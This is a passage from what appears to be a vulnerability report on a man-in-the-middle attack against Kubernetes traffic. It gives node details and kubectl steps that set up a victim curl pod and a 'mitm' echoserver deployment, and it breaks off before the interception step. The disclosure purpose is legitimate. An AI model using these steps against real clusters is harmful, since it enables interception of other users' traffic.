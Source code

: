 ```
etienne-ks143   Ready    <none>   45m   v1.16.3   10.10.52.143   <none>        CentOS Linux 7 (Core)   3.10.0-1062.9.1.el7.x86_64   containerd://1.2.10
etienne-ks144   Ready    <none>   45m   v1.16.3   10.10.52.144   <none>        CentOS Linux 7 (Core)   3.10.0-1062.9.1.el7.x86_64   containerd://1.2.10

Calico 3.7.3
CNI plugin 0.8.1
```

## Steps To Reproduce:

We assume that you already have a working k8s cluster

### 0) prepare our tests

Deploy "victim-client" pod to simulate an in-cluster HTTP client with curl
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: victim-client
spec:
  containers:
    - name: curl
      image: curlimages/curl:7.67.0
      command: [ "/bin/sleep", "3600" ]
EOF
```

Check that we have access to our external victim (here 1.1.1.1)
```
# from a node
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# from the pod
kubectl exec victim-client -- curl -sv http://1.1.1.1
kubectl exec victim-client -- curl -sv https://1.1.1.1 -k
```
Deploy our "mitm pod"
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: kubeproxy-mitm
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: kubeproxy-mitm
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
```